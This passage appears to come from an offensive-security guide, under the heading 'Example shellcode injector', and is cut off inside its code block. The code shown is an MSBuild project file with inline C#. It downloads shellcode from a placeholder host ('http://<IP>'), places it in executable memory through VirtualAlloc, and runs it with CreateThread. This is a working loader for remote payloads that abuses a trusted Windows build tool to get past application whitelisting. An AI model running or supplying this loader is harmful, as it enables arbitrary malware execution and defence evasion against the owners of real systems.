 #### Example shellcode injector
```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuildTest/>
  </Target>
   <UsingTask
    TaskName="MSBuildTest"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
      <Code Type="Class" Language="cs">
        <![CDATA[

            using System;
            using System.Net;
            using System.Runtime.InteropServices;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class MSBuildTest :  Task, ITask
            {
                public override bool Execute()
                {
                    byte[] shellcode;
                    using (var client = new WebClient())
                    {
                        client.BaseAddress = "http://<IP>";
                        shellcode = client.DownloadData("shellcode.bin");
                    }
      
                    var hKernel = LoadLibrary("kernel32.dll");
                    var hVa = GetProcAddress(hKernel, "VirtualAlloc");
                    var hCt = GetProcAddress(hKernel, "CreateThread");

                    var va = Marshal.GetDelegateForFunctionPointer<AllocateVirtualMemory>(hVa);
                    var ct = Marshal.GetDelegateForFunctionPointer<CreateThread>(hCt);

                    var hMemory = va(IntPtr.Zero, (uint)shellcode.Length, 0x00001000 | 0x00002000, 0x40);
                    Marshal.Copy(shellcode, 0, hMemory, shellcode.Length);

                    var t = ct(IntPtr.Zero, 0, hMemory, IntPtr.Zero, 0, IntPtr.Zero);
                    WaitForSingleObject(t, 0xFFFFFFFF);

                    return true;
                }

            [DllImport("kernel32", CharSet = CharSet.Ansi)]
            private static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)]string lpFileName);
    
            [DllImport("kernel32", CharSet = CharSet.Ansi)]
            private static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

            [DllImport("kernel32")]
            private static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);

            [UnmanagedFunctionPointer(CallingConvention.StdCall)]
            private delegate IntPtr AllocateVirtualMemory(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
            [UnmanagedFunctionPointer(CallingConvention.StdCall)]
```